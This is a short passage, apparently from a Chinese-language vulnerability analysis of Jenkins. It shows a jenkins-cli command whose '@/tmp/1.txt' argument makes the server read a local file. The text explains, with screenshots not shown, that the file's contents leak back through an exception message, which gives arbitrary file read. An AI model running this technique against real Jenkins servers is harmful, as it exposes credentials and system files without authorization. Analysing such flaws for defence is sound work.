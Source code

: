 ```plain
java -jar jenkins-cli.jar -s http://localhost:8081/ -auth user:bitnami -webSocket who-am-i @/tmp/1.txt
```

再次进行调试，发现会把/tmp/1.txt 内容读取出来

![图片](assets/1706497193-772bc342dc4ef3bc5c46d299ecbee08d.png)

再接着向下看，读取出来的内容作为异常抛了出来，从而达到了任意文件读取

![图片](assets/1706497193-32b3ce8bf4bb4d26cb8b2335be7915e7.png)
